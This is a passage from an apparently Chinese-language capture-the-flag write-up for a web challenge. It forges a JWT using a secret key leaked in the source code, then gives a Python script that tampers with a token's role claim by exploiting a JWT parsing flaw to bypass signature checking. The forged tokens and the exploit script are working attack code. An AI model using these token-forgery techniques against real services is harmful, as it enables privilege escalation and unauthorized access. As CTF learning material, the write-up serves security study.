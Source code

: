 **{**

 **"name": "donate",**

 **"quantity": 1**

**}**

**那么我们可以先将donate换成gongde，然后quantity设置很大**

 

**再根据源码josnwebtoken的key是ISCC_muyu_2024**

 

**构造jwt如下，拿到jwt为**

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiZ29uZ2RlIiwicXVhbnRpdHkiOjFlKzYwfQ.lw88M7on-6fEL3cQhv9YVDg0jQpUImHzeAAiOBlRUJY

**传入jwt**

![image-20240606183851895](./images/2024-4.28-5.5 /image-20240606183851895.png)

**地址: 02:42:ac:18:00:02**

**访问提示地址**

![image-20240606183909443](./images/2024-4.28-5.5 /image-20240606183909443.png)

**拿到一段jwt**

**{**

 **"exp": 1714744689,**

 **"iat": 1714741089,**

 **"jti": "6DOlMYRucZz05HbEGPRXYA",**

 **"nbf": 1714741089,**

 **"role": "member",**

 **"username": "ISCCmember"**

**}**

**根据提示可知，要把role改为supervip，**

**利用python脚本**

```python
from json import loads, dumps
from jwcrypto.common import base64url_encode, base64url_decode

def topic(topic):
    [header, payload, signature] = topic.split('.')
    parsed_payload = loads(base64url_decode(payload))
    print(parsed_payload)
    parsed_payload["role"] = "vip"
    print(dumps(parsed_payload, separators=(',', ':')))
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
    print(fake_payload)
    return '{" ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"} '

print(topic('eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6Im1lbWJlciIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9.UZGcWQ6QRVmBD0w3AdPGuW7gaf-7Y7MkkmIcLjgELNZ2Ao96Vlja5wsUIKfI1O5iNAyCxOJ1FDwHijc2EaDT5vcPVErznzEHHSiz01sTbncxyCEChlJSjVT1-d-HoFwfWte85qnJr0Mtwy2feg9FhGYl9s889qubaJeSkb0Qz2GYMgVkc6eqB62wrhtyGcGfQFyqcYF9AH7DRDfGc9A9_yzp051Zb3_Qx0nPPLX34UeM7HxXoBza5Dmt7OauBwyeYwu87lYFME8FaGXz1UVm4xPB6_GBBv5aZ2IDvWkK4t4W--DrYOM6J0buHp6XKqhjoJhavp56sc5PkhisktGmag'))
```